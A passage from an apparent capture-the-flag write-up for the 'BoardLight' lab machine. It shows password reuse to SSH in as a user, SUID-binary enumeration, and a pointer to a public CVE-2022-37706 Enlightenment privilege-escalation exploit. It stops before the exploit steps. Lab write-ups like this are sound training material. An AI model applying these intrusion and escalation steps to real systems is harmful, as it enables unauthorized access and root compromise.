 Hmm, I suppose I could check if the password we have is reused for the user on the system.

```bash
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ls /home
ls /home
larissa
```

```bash
ssh larissa@board.htb

The authenticity of host 'board.htb (10.10.11.11)' can't be established.
ECDSA key fingerprint is SHA256:cfQmOVNyP7asi/B8DSu3+G5gDhuN37I3cqCQM89psFk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'board.htb,10.10.11.11' (ECDSA) to the list of known hosts.
larissa@board.htb's password: 
Permission denied, please try again.
larissa@board.htb's password: 
Last login: Fri May 31 12:45:28 2024 from 10.10.14.6
larissa@boardlight:~$ cat user.txt 
ddbd9b8dc680d-------------------
```

# Root

## Enlightenment

```bash
larissa@boardlight:~$ find / -user root -perm -4000 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
/usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/sudo
/usr/bin/su
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/vmware-user-suid-wrapper
```

Enlightenment isn't something I normally see on machines, time for some digging. And to save me some typing there is a potential exploit for enlightenment of [https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit). If you want to read more details on the enlightenment_sys binary exploit I implore you, but below is a shortened version:
